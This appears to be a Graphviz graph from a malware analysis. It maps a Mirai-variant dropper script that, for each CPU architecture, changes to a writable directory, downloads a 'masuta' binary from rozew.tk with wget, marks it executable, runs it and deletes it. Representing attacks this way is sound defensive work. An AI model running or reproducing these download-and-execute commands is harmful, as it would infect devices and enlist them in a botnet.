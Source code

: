 digraph {
126 [label="cd /tmp "];
126 -> 126
128 [label="cd /var/run "];
128 -> 130 [label="||,"];
130 [label="cd /mnt "];
130 -> 132 [label="||,"];
132 [label="cd /root "];
132 -> 134 [label="||,"];
134 [label="cd / "];
134 -> 10 [label="||,"];
10 [label="wget http://rozew.tk/bins/masuta.mips -O sunlessmiraimips "];
10 -> 12 [label=";,"];
12 [label="chmod +x sunlessmiraimips "];
12 -> 14 [label=";,"];
14 [label="./sunlessmiraimips ssh "];
14 -> 16 [label=";,"];
16 [label="rm -rf sunlessmiraimips "];
16 -> 126 [label=";,"];
126 [label="cd /tmp "];
126 -> 126
128 [label="cd /var/run "];
128 -> 130 [label="||,"];
130 [label="cd /mnt "];
130 -> 132 [label="||,"];
132 [label="cd /root "];
132 -> 134 [label="||,"];
134 [label="cd / "];
134 -> 28 [label="||,"];
28 [label="wget http://rozew.tk/bins/masuta.mpsl -O sunlessmiraimipsel "];
28 -> 30 [label=";,"];
30 [label="chmod +x sunlessmiraimipsel "];
30 -> 32 [label=";,"];
32 [label="./sunlessmiraimipsel ssh "];
32 -> 34 [label=";,"];
34 [label="rm -rf sunlessmiraimipsel "];
34 -> 126 [label=";,"];
126 [label="cd /tmp "];
126 -> 126
128 [label="cd /var/run "];
128 -> 130 [label="||,"];
130 [label="cd /mnt "];
130 -> 132 [label="||,"];
132 [label="cd /root "];
132 -> 134 [label="||,"];
134 [label="cd / "];
134 -> 136 [label="||,"];
136 [label="wget http://rozew.tk/bins/masuta.sh4 -O sunlessmiraish4 "];
136 -> 138 [label=";,"];
138 [label="chmod +x sunlessmiraish4 "];
138 -> 140 [label=";,"];
140 [label="./sunlessmiraish4 ssh "];
140 -> 141 [label=";,"];
141 [label="rm -rf sunlessmiraish4 "];
141 -> 126 [label=";,"];
126 [label="cd /tmp "];
126 -> 126
128 [label="cd /var/run "];
128 -> 130 [label="||,"];
130 [label="cd /mnt "];
130 -> 132 [label="||,"];
132 [label="cd /root "];
132 -> 134 [label="||,"];
134 [label="cd / "];
134 -> 64 [label="||,"];
64 [label="wget http://rozew.tk/bins/masuta.x86 -O sunlessmiraix86 "];
64 -> 66 [label=";,"];
66 [label="chmod +x sunlessmiraix86 "];
66 -> 68 [label=";,"];
68 [label="./sunlessmiraix86 x86_64 "];
68 -> 70 [label=";,"];
70 [label="rm -rf sunlessmiraix86 "];
70 -> 126 [label=";,"];
126 [label="cd /tmp "];
126 -> 126
128 [label="cd /var/run "];
128 -> 130 [label="||,"];
130 [label="cd /mnt "];
130 -> 132 [label="||,"];
132 [label="cd /root "];
132 -> 134 [label="||,"];
134 [label="cd / "];
134 -> 82 [label="||,"];
82 [label="wget http://rozew.tk/bins/masuta.ppc -O sunlessmiraippc "];
82 -> 84 [label=";,"];
84 [label="chmod +x sunlessmiraippc "];
84 -> 86 [label=";,"];
86 [label="./sunlessmiraippc POWERPC "];
86 -> 88 [label=";,"];
88 [label="rm -rf sunlessmiraippc "];
88 -> 126 [label=";,"];
126 [label="cd /tmp "];
126 -> 126
128 [label="cd /var/run "];
128 -> 130 [label="||,"];
130 [label="cd /mnt "];
130 -> 132 [label="||,"];
132 [label="cd /root "];
132 -> 134 [label="||,"];
134 [label="cd / "];
134 -> 100 [label="||,"];
100 [label="wget http://rozew.tk/bins/masuta.arm7 -O sunlessmiraiarm7 "];
100 -> 102 [label=";,"];
102 [label="chmod +x sunlessmiraiarm7 "];
102 -> 104 [label=";,"];
104 [label="./sunlessmiraiarm7 ssh "];
104 -> 106 [label=";,"];
106 [label="rm -rf sunlessmiraiarm7 "];
106 -> 126 [label=";,"];
126 [label="cd /tmp "];
126 -> 126
128 [label="cd /var/run "];
128 -> 130 [label="||,"];
130 [label="cd /mnt "];
130 -> 132 [label="||,"];
132 [label="cd /root "];
132 -> 134 [label="||,"];
134 [label="cd / "];
134 -> 118 [label="||,"];
118 [label="wget http://rozew.tk/bins/masuta.arm -O sunlessmiraiarm "];
118 -> 120 [label=";,"];
120 [label="chmod +x sunlessmiraiarm "];
120 -> 122 [label=";,"];
122 [label="./sunlessmiraiarm ssh "];
122 -> 124 [label=";,"];
124 [label="rm -rf sunlessmiraiarm "];
124 -> 126 [label=";,"];
126 [label="cd /tmp "];
126 -> 126
128 [label="cd /var/run "];
128 -> 130 [label="||,"];
130 [label="cd /mnt "];
130 -> 132 [label="||,"];
132 [label="cd /root "];
132 -> 134 [label="||,"];
134 [label="cd / "];
134 -> 136 [label="||,"];
136 [label="wget http://rozew.tk/bins/masuta.sh4 -O sunlessmiraish4 "];
136 -> 138 [label=";,"];
138 [label="chmod +x sunlessmiraish4 "];
138 -> 140 [label=";,"];
140 [label="./sunlessmiraish4 ssh "];
140 -> 141 [label=";,"];
}
